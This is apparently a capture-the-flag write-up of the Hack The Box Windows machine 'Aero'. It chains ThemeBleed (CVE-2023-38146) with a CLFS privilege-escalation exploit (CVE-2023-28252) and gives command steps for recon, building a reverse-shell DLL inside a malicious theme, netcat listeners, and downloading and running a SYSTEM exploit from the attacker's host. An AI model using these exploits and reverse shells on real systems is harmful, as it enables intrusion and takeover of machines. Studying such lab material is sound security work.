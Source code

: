 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used**:
    
    - 🎨 **ThemeBleed** (CVE‑2023‑38146) – race‑condition on `.msstyles` _vrf.dll loading
    - 🐛 **CLFS EoP** (CVE‑2023‑28252) – Common Log File System token stealing
    - ⚙️ Local PrivEsc via Nokoyawa-style CLFS exploit

**Open Ports:**

- [80](HTTP.md)/tcp – HTTP (IIS + ARR/3.0)

---

## 🧠 TLDR

1. **Recon & Static** – Found IIS 10, a theme‑upload form allowing `.theme`/`.themepack` only.
2. **RCE via ThemeBleed** – Built a malicious DLL exporting `VerifyThemeVersion`, packaged it into a theme with ThemeBleed POC, ran the built‑in SMB server, uploaded to trigger a reverse shell as `aero\sam.emerson` 🎉
3. **EoP to SYSTEM** – Retrieved and reviewed CVE‑2023‑28252_POC, patched to drop a Base64‑powered PowerShell reverse shell, ran it on the box to escalate from user to `NT AUTHORITY\SYSTEM` 🚀
4. **Beyond Root** – Discovered use of `FileSystemWatcher` in `watchdog.ps1` for auto‑launching uploaded themes, showcasing automation via PowerShell events.
    

---

## 🧰 Tools

- **Port/Content Discovery**: `nmap`, `feroxbuster`
- **ThemeBleed Exploit**: [ThemeBleed.exe](https://github.com/example/ThemeBleed) (make_theme/make_themepack + servere
- **DLL Builder**: Visual Studio (C++ DLL project exporting `VerifyThemeVersion`)
- **Networking**: `nc -lvnp` for callback listener
- **EoP Exploit**: CLFS PoC (CVE‑2023‑28252) from Fortra
- **PowerShell**: `Invoke‑WebRequest`, `FileSystemWatcher`, `Convert::ToBase64String`

---

## 🚀 Commands

```bash
# 1) Recon
nmap -p- --min-rate 10000 -oA aero-full 10.10.11.237
nmap -p80 -sCV     10.10.11.237

# 2) Build & Deploy ThemeBleed RCE
#   • Compile ReverseShellDLL.dll exporting VerifyThemeVersion()
#   • Copy into POC repo: data/stage_3/
#   • Generate theme: 
./ThemeBleed.exe make_theme YOUR_IP exploit.theme
#   • Disable local SMB on attacker host (stop Server service) / reboot
#   • Run SMB server:
./ThemeBleed.exe server
#   • Upload exploit.theme via web form
nc -lvnp 4444           # catch shell as sam.emerson
```

```
# 3) Privilege Escalation via CLFS
#   • Exfiltrate CVE summary PDF:
[convert]::ToBase64String((Get-Content CVE-2023-28252_Summary.pdf -Encoding byte))
#   • Build CLFS exploit in VS (Release, MBCS)
#   • Download & execute on target:
iwr http://YOUR_IP/clfs_eop.exe -outfile clfs_eop.exe
.\clfs_eop.exe         # drops SYSTEM reverse shell

nc -lvnp 9001           # catch SYSTEM shell

# 4) Beyond Root – Automation Insight
#   • Review watchdog.ps1 using FileSystemWatcher in C:\inetpub\aero\uploads
```

---

## 📚 Lessons Learned

- 🎨 **ThemeBleed** shows how signed‐DLL checks can be raced via filesystem swap (_vrf.dll).
    
- 🐛 **CLFS Token Stealing** is a powerful kernel escape when patch KB5025224 is missing.
    
- ⚙️ **PowerShell FileSystemWatcher** eventing can automate “clicking” actions server‑side.
    
- 🛠️ Always inspect uploads & backups for local enum or creds, then chain to EoP.
    

---

## 📖 References

- [ThemeBleed (CVE‑2023‑38146) POC](https://github.com/0xdf/ThemeBleed)
    
- [Fortra CLFS EoP (CVE‑2023‑28252)](https://github.com/fortra/clfs-eop)
    
- [Microsoft Security Update Guide](https://msrc.microsoft.com/update-guide)
    
- [HTB Aero Discussion & Walkthrough](https://0xdf.gitlab.io/2023/09/28/htb-aero.html)